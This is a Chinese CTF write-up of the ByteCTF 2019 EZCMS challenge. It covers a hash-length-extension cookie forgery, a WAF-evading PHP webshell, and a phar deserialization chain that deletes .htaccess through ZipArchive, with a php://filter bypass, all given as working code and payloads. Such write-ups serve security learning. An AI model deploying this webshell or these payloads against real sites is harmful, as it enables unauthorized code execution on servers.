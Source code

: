 # ByteCTF 2019

## 0x01 EZCMS

看题名就知道是个代码审计题，扫一下目录发现``www.zip``拿到源码

首先是hash扩展攻击，拿到上传权限

```php
function login(){

    $secret = "********";
    setcookie("hash", md5($secret."adminadmin"));
    return 1;

}

function is_admin(){
    $secret = "********";
    $username = $_SESSION['username'];
    $password = $_SESSION['password'];
    if ($username == "admin" && $password != "admin"){
        if ($_COOKIE['user'] === md5($secret.$username.$password)){
            return 1;
        }
    }
    return 0;
}
```

这里构造

```
root@EDI:~/HashPump# hashpump
Input Signature: 52107b08c0f3342d2153ae1d68e6262c
Input Data: admin
Input Key Length: 13
Input Data to Add: eki
bcbbe3284dc03be00f59d52a7633aeb5
admin\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x90\x00\x00\x00\x00\x00\x00\x00eki
```

然后上传的时候把``bcbbe3284dc03be00f59d52a7633aeb5``塞到cookie就可了


现在已经可以上传文件，甚至可以直接上传php，但是还是没法正常解析，因为``.htaccess``被覆盖了

我们先传一个马，并对waf进行拼接绕过

```php
<?php
$a="sys";
$b="tem";
$c=$a.$b;
$d=$c($_REQUEST['eki']);
?>
```

这里不能使用eval,因为eval没法拼接使用

```php
    if (!is_file($this->upload_dir.'/.htaccess')){
        file_put_contents($this->upload_dir.'/.htaccess', 'lolololol, i control all');
    }
```

现在就是要想办法把``.htaccess``删了

看了大佬的wp，发现这里的利用点是这里

```php
class Profile{
    ...
    function __call($name, $arguments)
    {
        $this->admin->open($this->username, $this->password);
    }
}
```

这里调用了一个open,

> Archive->open方法可以删除目标文件，前提是我们需要将其第二个参数设定为“9”。
> 为什么要设定为9呢？原因在于， ZipArchive->open()的第二个参数是“指定其他选项”。而9对应的是ZipArchive::CREATE | ZipArchive::OVERWRITE。由于ZipArchive打算覆盖我们的文件，所以就会先对其进行删除。在此，感谢@pagabuc帮助我们解释了这一参数的具体意义。
> 那么现在，我们就可以使用ZipArchive->open()来删除.htaccess文件。
> https://www.anquanke.com/post/id/95896#h2-8

可以在

```
view.php?filename=9365118560228f7bd99e199c9027b4be.gif&filepath=./sandbox/9f564a2cb832bd31431a6707104641ad/9365118560228f7bd99e199c9027b4be.gif
```

利用phar作为攻击载荷

```php
<?php
class File{
    public $filename;
    public $filepath;
    public $checker;

    function __construct($filename, $filepath){
        $this->filepath = $filepath;
        $this->filename = $filename;
    }
}

class Profile{
    public $username;
    public $password;
    public $admin;
}

$a = new File("eki","eki");
$a->checker = new Profile();
$a->checker->username = "/var/www/html/sandbox/9f564a2cb832bd31431a6707104641ad/.htaccess";
$a->checker->password = ZipArchive::OVERWRITE | ZipArchive::CREATE;
$a->checker->admin = new ZipArchive();

//echo serialize($a);
$phar = new Phar("exp.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
$phar->setMetadata($a); 
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
$phar->stopBuffering();
?>
```

利用filter绕过对phar的过滤

```
payload:/view.php?filename=2fa0baf1c751e2e9645ea67da0792644.phar&filepath=php://filter/resource=phar://./sandbox/9f564a2cb832bd31431a6707104641ad/2fa0baf1c751e2e9645ea67da0792644.phar
```

成功调用后应该就能成功访问正常解析的php了

getshell完成